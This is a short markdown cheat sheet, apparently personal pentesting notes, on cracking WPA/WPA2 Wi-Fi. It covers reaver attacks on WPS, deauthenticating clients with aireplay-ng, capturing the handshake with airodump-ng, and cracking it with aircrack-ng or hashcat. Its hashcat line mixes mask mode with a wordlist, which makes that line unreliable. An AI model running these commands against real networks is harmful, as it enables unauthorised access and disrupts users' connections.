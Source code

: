 ```yaml
---
title: WPA - WPA2 Cracking
date: 2024-01-28 14:15:56 -0600
---
```


### Crack WPS Enabled Networks

````bash
wash --interface <interface>
````

**Output**  
`Lck` : Shows if WPS is locked (Can be locked after continuous failed attempts)  
`dBm` : Signal Strength

````bash
aireplay-ng --fakeauth 30 -a <router-bssid> -h <myadapter-bssid> <interface>
reaver --bssid <router-bssid> --channel <channel> --interface <interface> -vvv --no-associate
````

This attack will fail if PBA is enabled. The only way to confirm is by performing the attack

`--no-associate` flag prevents reaver from connecting to the network if the crack was successful (If not set reaver is found to fail in most of the cases)

### Crack WPS Disabled Networks

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename> -w <wordlist>
````

Handshake packet is only transferred when an new device connected to the network.
We can force an device to reconnect using an Deauth Attack

````bash
aireplay-ng --deauth <very-small-number> -a <router-bssid> -c <target-bssid> <interface>
````

If we open the .cap file in Wireshark we can see the "EAPOL (Extensible Authentication Protocol over LAN)" Packet  
i.e. The 4-Way Handshake performed by WPA  
For cracking use of `rockyou.txt` wordlist  
The cracking step can be performed using Hashcat more much faster bruteforcing using GPU

````bash
/usr/share/hashcat-utils/cap2hccapx.bin <cap-file> <filename>.hccapx
hashcat -m 2500 -a 3 -o <output-file> <handshake-file> <wordlist>
````
